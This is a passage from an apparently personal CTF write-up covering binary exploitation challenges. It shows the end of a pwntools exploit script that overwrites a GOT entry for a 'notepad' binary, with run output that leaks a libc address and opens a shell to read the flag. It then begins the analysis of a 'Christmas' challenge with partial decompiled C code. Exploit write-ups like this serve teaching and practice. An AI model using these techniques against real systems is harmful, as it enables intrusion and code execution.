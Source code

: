 ```py
    32: elf.got.puts    # we will write into here
}))

p.interactive()
```

```sh
➜ python3 solve.py
[*] './notepad'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] './libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './notepad': pid 1572271
[*] puts @ 0x7f2b72cb2e50
[*] libc base @ 0x7f2b72c32000
[*] Switching to interactive mode
Enter your note:
Received
$ cat flag.txt
blahaj{4rb_r3ad_4rb_wr1te_and_rc3_in_on3??}
```

## FINALE: Christmas

This was my favourite challenge in the CTF.

> All I want for Christmas is /bin/sh
>
> Attachments: [santa](./attachments/pwn/christmas/santa) [libc.so.6](./attachments/pwn/christmas/libc.so.6)

### Analysis

#### Brief Overview

This program is rather straightforward, everything is found in a single function. I've cleaned up the decompiled code as shown below

```c
int main()
{
  int64_t choice;
  int64_t idx;
  unsigned __int64_t idxa;
  unsigned __int64_t idxb;
  int64_t size;
  char *wishlist[10];
  char buf[128];

  memset(wishlist, 0, sizeof(wishlist));
  setup();
  print_banner();

  while (1) {

    print_menu();
    fgets(buf, 128, stdin);
```